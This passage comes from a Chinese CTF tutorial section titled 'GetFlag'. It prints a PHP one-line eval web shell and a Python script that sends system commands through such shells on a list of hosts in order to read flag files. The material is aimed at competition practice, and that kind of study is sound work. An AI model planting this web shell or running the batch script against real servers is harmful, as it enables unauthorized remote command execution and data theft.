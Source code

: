这样就完成了 <br>

-----


### <span id = "c">GetFlag：</span>

在ctf比赛中，为了能够快速获取flag，获得更多的分数，<br>

我们通常需要配合脚本一起完成。 <br>

下面假设我们已经获取了**shell**，接下来就批量获取flag了。 <br>

假设 flag 在网站根目录，flag 为 **flag{hello}** <br>

这个shell为一句话， `<?php error_reporting(0);eval($_POST[cmd]);?>`

-----

写法就跟前面提到的 批量poc差不多，也跟 **UrlCheck** 差不多，<br>

只不过是 这里使用 post 提交 <br>

```python
import requests
import time

def getflag(url):

	try:

		# url = 'http://localhost/shell.php'

		headers = {

			'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2'

		}

		payload = {"cmd":"system('type flag.txt');"}

		r = requests.post(url,headers=headers,data=payload,timeout=1)

		if r.text:
			print(url+' -----> '+r.text)
			# print(r.text)

	except:

		# print(url+' -----> error')
		return   #  return 一个空


dic = [

	'http://192.168.1.2/shell.php',
	'http://192.168.1.3/shell.php',
	'http://192.168.1.4/shell.php',
	'http://192.168.1.5/shell.php',
	'http://localhost/shell2.php',

]

for url in dic:
	getflag(url)
```